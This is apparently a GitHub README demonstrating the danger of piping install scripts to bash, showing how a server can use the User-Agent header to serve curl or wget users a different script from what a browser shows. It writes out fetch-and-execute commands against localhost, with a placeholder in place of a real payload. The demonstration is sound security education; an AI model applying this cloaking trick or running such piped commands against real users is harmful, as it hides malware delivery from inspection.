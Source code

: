 # pipe-to-bash
Piping install scripts you find on the internet to bash is a big security risk, yet many projects/vendors suggests this practice. This is a simple example showing why `curl/wget https://not-malicious.com/install.sh | bash` is bad and how you can get fooled even though you inspect the payload in the browser before executing it.

By using the `User-Agent` header we detect whether or not the call is coming from `curl` or `wget` commonly used when piping to bash, if so we supply the malicious payload. If the user is using any other `User-Agent` (such as Chrome, Firefox, etc) we will show a non-malicious install script.

## Malicious
### Request
```
curl -sSL http://localhost:3000/install.sh | bash
```

### Response
```
Execute all the things, install malware, exfiltrate secrets, etc
```

## Non-malicious

### Request
```
curl -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0" -sSL http://localhost:3000/install.sh | bash
```
### Response
```
Fake install script, shown if you are not using wget/curl
```